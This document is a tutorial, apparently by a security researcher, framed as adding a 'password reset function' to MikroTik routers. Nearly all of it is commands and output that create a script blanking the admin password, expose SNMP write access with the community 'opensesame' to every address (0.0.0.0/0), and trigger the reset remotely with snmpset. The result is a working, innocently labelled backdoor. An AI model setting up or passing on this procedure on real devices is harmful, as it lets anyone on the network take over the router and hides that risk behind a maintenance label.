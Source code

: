 ### Tutorial: Adding a Password Reset Function to MikroTik OS

In this tutorial, we will add a password reset function to MikroTik OS using a MikroTik script. We will create a script called "password reset" that sets the admin password to an empty string. We will then enable SNMP write access with the community string "opensesame" and verify that the SNMP service is running. Finally, we will use `snmpwalk` to query the scripts and `snmpset` to run the password reset script over SNMP.

#### Step 1: Create the Password Reset Script

1. **Access the MikroTik CLI**:
   - You can access the MikroTik CLI via SSH, Telnet, or the Winbox terminal. For SSH, use a terminal application like PuTTY or the built-in terminal on your operating system.
   - Connect to your MikroTik router using its IP address and login credentials.

   ```sh
   ssh admin@<router_ip_address>
   ```

2. **Create the Script**:
   - Use the following command to create a new script named "password reset" that changes the password of the "admin" user to an empty password.

   ```sh
   /system script add name="password reset" source="/user set admin password=\"\""
   ```

3. **Verify the Script**:
   - Verify that the script has been created correctly by listing all scripts.

   ```sh
   /system script print
   ```

   Output:
   ```
   Flags: I - invalid
    #   NAME            OWNER       LAST-STARTED                  RUN-COUNT
    0   password reset  admin       jan/01/1970 00:00:00          0
   ```

#### Step 2: Enable SNMP Write Access

1. **Enable SNMP**:
   - Enable the SNMP service on the router.

   ```sh
   /snmp set enabled=yes
   ```

2. **Configure SNMP Community**:
   - Add an SNMP community with write access. Replace `<community_name>` with `opensesame`.

   ```sh
   /snmp community add name=opensesame addresses=0.0.0.0/0 write-access=yes
   ```

3. **Verify SNMP Configuration**:
   - Verify that the SNMP service and community have been configured correctly.

   ```sh
   /snmp print
   /snmp community print
   ```

   Output:
   ```
   Flags: * - default 
    #   NAME       ADDRESSES           SECURITY  READ-ACCESS  WRITE-ACCESS
    0 * opensesame  0.0.0.0/0           none      yes          yes
   ```

#### Step 3: Check SNMP Service Status

1. **Check SNMP Service**:
   - Ensure that the SNMP service is running and enabled.

   ```sh
   /snmp print
   ```

   Output:
   ```
   enabled: yes
   contact: 
   location: 
   trap-target: 
   trap-community: 
   trap-version: 
   ```

#### Step 4: Query Scripts Using SNMP

1. **Install SNMP Tools**:
   - Ensure that you have SNMP tools installed on your system. On Debian-based systems, you can install them using:

   ```sh
   sudo apt-get install snmp
   ```

2. **Use `snmpwalk` to Query Scripts**:
   - Use the `snmpwalk` command to query the OID `1.3.6.1.4.1.14988.1.1.8` to list the scripts.

   ```sh
   snmpwalk -v 2c -c opensesame <router_ip_address> 1.3.6.1.4.1.14988.1.1.8
   ```

   - This command will list the scripts available on the MikroTik router.

#### Step 5: Run the Script Using SNMP

1. **Use `snmpset` to Run the Script**:
   - Use the `snmpset` command to run the "password reset" script. Replace `<router_ip_address>` with the IP address of your MikroTik router.

   ```sh
   snmpset -v 2c -c opensesame <router_ip_address> 1.3.6.1.4.1.14988.1.1.8.1.1.3.3 i 1
   ```

   - This command will execute the "password reset" script, setting the admin password to an empty string.

### Summary

By following these steps, you can add a password reset function to MikroTik OS using a MikroTik script. You will also enable SNMP write access, verify the SNMP service, query the scripts using `snmpwalk`, and run the script using `snmpset`. This guide assumes you have administrative access to the router and are familiar with basic networking concepts. If you encounter any issues, refer to the MikroTik documentation or seek assistance from MikroTik support or community forums.

---

**Author**: Hacker Fantastic  
**Date**: April 17, 2025  
**Website**: [https://hacker.house](https://hacker.house)